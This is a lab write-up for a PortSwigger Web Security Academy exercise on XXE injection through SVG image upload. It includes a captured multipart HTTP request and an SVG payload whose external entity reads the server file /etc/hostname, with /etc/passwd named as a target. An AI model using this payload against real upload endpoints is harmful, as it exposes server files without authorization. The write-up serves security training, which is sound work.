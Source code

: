 # Lab-08 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1470aab9-6096-4a00-9523-fd7a1a3406ec)

## Overview :

#### XXE attacks via file upload

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like `DOCX` and image formats like `SVG`.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. **Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities**. 

## Solution :

The image upload functionality is vulnerable to XXE attack.

Since **SVG image formats are XML based, we can try to upload an SVG image & modify the content of the xml to retreive `/etc/passwd`.**

First step is to download any SVG image from the internet - [Link](https://www.svgrepo.com/download/4733/samples.svg)

Upload the image in the comment section.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7f4eed80-8cc9-4725-b0e7-d6e4850f920c)

The request sent is as follows,

```http
POST /post/comment HTTP/2
Host: 0af3001a04d49cc680f98fe600360054.web-security-academy.net
Cookie: session=8CMbZt7nqpnKxX5BWeqFKSaHuf8Y2fep
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------411093510810586854491817040917
Content-Length: 4197
Origin: https://0af3001a04d49cc680f98fe600360054.web-security-academy.net
Referer: https://0af3001a04d49cc680f98fe600360054.web-security-academy.net/post?postId=3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="csrf"

Pug71fV4fPRd07n2oBMA6jMlMZoTS16V
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="postId"

3
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="comment"

This is for testing XXE via SVG file upload
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="name"

shebu
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="avatar"; filename="samples-svgrepo-com.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="iso-8859-1"?>
<!-- Uploaded to: SVG Repo, www.svgrepo.com, Generator: SVG Repo Mixer Tools -->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" id="Capa_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" 
	 viewBox="0 0 297.5 297.5" xml:space="preserve">
<g id="XMLID_40_">
	<g> 
		<path style="fill:#ACBFC7;" d="M277.71,158.52v85.7H19.79v-85.7h6.53v40.54c0,16.98,13.81,30.78,30.78,30.78
			s30.78-13.8,30.78-30.78v-40.54h30.09v40.54c0,16.98,13.81,30.78,30.78,30.78c16.98,0,30.78-13.8,30.78-30.78v-40.54h30.1v40.54
			c0,16.98,13.8,30.78,30.78,30.78c16.97,0,30.78-13.8,30.78-30.78v-40.54H277.71z"/>
		<rect x="218.66" y="53.28" style="fill:#CDD9DD;" width="43.49" height="10.53"/>
		<rect x="229.17" y="83.35" style="fill:#CDD9DD;" width="22.48" height="23.92"/>
		<rect x="137.51" y="83.35" style="fill:#CDD9DD;" width="22.48" height="23.92"/>
		<rect x="127.01" y="53.28" style="fill:#CDD9DD;" width="43.49" height="10.53"/>
		<rect x="35.35" y="53.28" style="fill:#CDD9DD;" width="43.49" height="10.53"/>
		<rect x="45.86" y="83.35" style="fill:#CDD9DD;" width="22.48" height="23.92"/>
		<path style="fill:#FF4855;" d="M251.65,126.81v72.25c0,6.2-5.05,11.24-11.24,11.24c-6.2,0-11.24-5.04-11.24-11.24v-72.25H251.65z"
			/>
		<path style="fill:#D61616;" d="M68.34,126.81v72.25c0,6.2-5.04,11.24-11.24,11.24s-11.24-5.04-11.24-11.24v-72.25H68.34z"/>
		<path style="fill:#FFD63F;" d="M159.99,126.81v72.25c0,6.2-5.04,11.24-11.24,11.24s-11.24-5.04-11.24-11.24v-72.25H159.99z"/>
		<path d="M297.25,148.75v105.24c0,5.4-4.37,9.77-9.77,9.77H10.02c-5.39,0-9.77-4.37-9.77-9.77V148.75c0-5.4,4.38-9.77,9.77-9.77
			h16.3V83.35h-0.74c-5.39,0-9.77-4.38-9.77-9.77V43.51c0-5.4,4.38-9.77,9.77-9.77h63.03c5.4,0,9.77,4.37,9.77,9.77v30.07
			c0,5.39-4.37,9.77-9.77,9.77h-0.73v55.63h30.09V83.35h-0.73c-5.4,0-9.77-4.38-9.77-9.77V43.51c0-5.4,4.37-9.77,9.77-9.77h63.03
			c5.39,0,9.77,4.37,9.77,9.77v30.07c0,5.39-4.38,9.77-9.77,9.77h-0.74v55.63h30.1V83.35h-0.74c-5.39,0-9.77-4.38-9.77-9.77V43.51
			c0-5.4,4.38-9.77,9.77-9.77h63.03c5.4,0,9.77,4.37,9.77,9.77v30.07c0,5.39-4.37,9.77-9.77,9.77h-0.73v55.63h16.29
			C292.88,138.98,297.25,143.35,297.25,148.75z M277.71,244.22v-85.7h-6.52v40.54c0,16.98-13.81,30.78-30.78,30.78
			c-16.98,0-30.78-13.8-30.78-30.78v-40.54h-30.1v40.54c0,16.98-13.8,30.78-30.78,30.78c-16.97,0-30.78-13.8-30.78-30.78v-40.54
			H87.88v40.54c0,16.98-13.81,30.78-30.78,30.78s-30.78-13.8-30.78-30.78v-40.54h-6.53v85.7H277.71z M262.15,63.81V53.28h-43.49
			v10.53H262.15z M251.65,199.06v-72.25h-22.48v72.25c0,6.2,5.04,11.24,11.24,11.24C246.6,210.3,251.65,205.26,251.65,199.06z
			 M251.65,107.27V83.35h-22.48v23.92H251.65z M170.5,63.81V53.28h-43.49v10.53H170.5z M159.99,199.06v-72.25h-22.48v72.25
			c0,6.2,5.04,11.24,11.24,11.24S159.99,205.26,159.99,199.06z M159.99,107.27V83.35h-22.48v23.92H159.99z M78.84,63.81V53.28H35.35
			v10.53H78.84z M68.34,199.06v-72.25H45.86v72.25c0,6.2,5.04,11.24,11.24,11.24S68.34,205.26,68.34,199.06z M68.34,107.27V83.35
			H45.86v23.92H68.34z"/>
	</g>
	<g>
	</g>
</g>
</svg>
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="email"

shebuheckur@shebu.com
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="website"

https://sh3bu.gitihub.io
-----------------------------411093510810586854491817040917--
```
In the above request remove all the <svg> tag contents and replace it with this [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

We get a `302 Redirect` which means the file upload is successful.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0320f2b4-b80e-4f1d-9bea-74f94330091e)

We can see the image has been uploaded as avatar

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/efd6ba9d-b8c6-42ad-982b-beb3eb56416f)


Click on the image & open it in new tab to view the o/p of /etc/hostname command.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/09aa29ba-e434-4778-8709-865e48ffa086)

Submit the name of the hostname to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0bc2f8f6-659c-4dba-973c-fd54f8739d32)






